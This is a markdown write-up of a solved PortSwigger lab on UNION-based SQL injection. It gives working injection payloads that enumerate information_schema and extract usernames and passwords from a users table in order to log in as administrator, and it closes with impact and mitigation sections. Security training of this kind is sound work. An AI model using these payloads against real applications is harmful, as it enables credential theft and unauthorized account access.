


# 💉 SQL Injection — Retrieving Data from Other Tables

### PortSwigger Web Security Academy · A05 — Injection

---

## 🧪 Lab Information

| Field | Value |
|---|---|
| **Platform** | PortSwigger Web Security Academy |
| **Module** | SQL Injection |
| **Lab** | Retrieving Data from Other Tables |
| **Difficulty** | Apprentice |
| **Parameter** | `category` |
| **HTTP Method** | GET |
| **Status** | ✅ Solved |

---

## 🎯 Objective

Exploit a **UNION-based SQL Injection** vulnerability to retrieve administrator credentials from another database table and use them to access the administrator account.

---

## 🔎 Vulnerability

The application is vulnerable to SQL Injection through the `category` parameter.

The objective was to enumerate the database structure, identify the `users` table and its relevant columns, retrieve the administrator credentials, and authenticate as the administrator.

---

## 🧭 Enumeration Process

### Step 1 — Determine the Number of Columns

The number of columns returned by the original query was determined using `ORDER BY` testing.

```text
Result: 3 columns
```

<p align="center">
  
</p>

---

### Step 2 — Identify Compatible Columns

A UNION query was used to identify columns capable of returning text values.

```sql
' UNION SELECT NULL,NULL--
```

The test identified two compatible columns for displaying database information.

<p align="center">
  
</p>

<p align="center">
  
</p>

---

### Step 3 — Enumerate Database Tables

The `information_schema.tables` view was queried to identify available tables.

```sql
' UNION SELECT table_name,NULL
FROM information_schema.tables--
```

The `users` table was identified.

<p align="center">
  
</p>

---

### Step 4 — Enumerate Table Columns

The columns of the `users` table were identified using:

```sql
' UNION SELECT column_name,NULL
FROM information_schema.columns
WHERE table_name='users'--
```

The relevant columns were:

```text
username
password
```

<p align="center">
  
</p>

---

### Step 5 — Retrieve Administrator Credentials

The `username` and `password` columns were queried using:

```sql
' UNION SELECT username,password
FROM users--
```

The response revealed the administrator credentials.

<p align="center">
  
</p>

---

### Step 6 — Authenticate as Administrator

The retrieved administrator credentials were used to authenticate to the application.

<p align="center">
  
</p>

The administrator account was successfully accessed.

---

## ⚠️ Impact

Successful UNION-based SQL Injection may allow attackers to retrieve sensitive information from other database tables.

Potential impact includes:

- User credentials
- Passwords or password hashes
- Personally identifiable information
- Sensitive application data
- Administrative account access
- Further compromise of the application

---

## 🛡️ Mitigation

Recommended defenses include:

- Use **parameterized queries / prepared statements**
- Avoid concatenating user input into SQL statements
- Use secure ORM/database access methods
- Apply appropriate input validation
- Restrict database account privileges
- Prevent unnecessary exposure of database errors
- Perform regular SQL Injection security testing

---

## ✅ Result

The `users` table was successfully enumerated, administrator credentials were retrieved, and the administrator account was accessed.

The PortSwigger lab was successfully completed.

<p align="center">
  
</p>

**Status:** ✅ Successfully Solved

---

## 🧠 Skills Demonstrated

- UNION-Based SQL Injection
- Database Enumeration
- `information_schema` Enumeration
- Table and Column Discovery
- Credential Extraction
- Burp Suite Proxy
- Burp Suite Repeater
- Manual Web Application Security Testing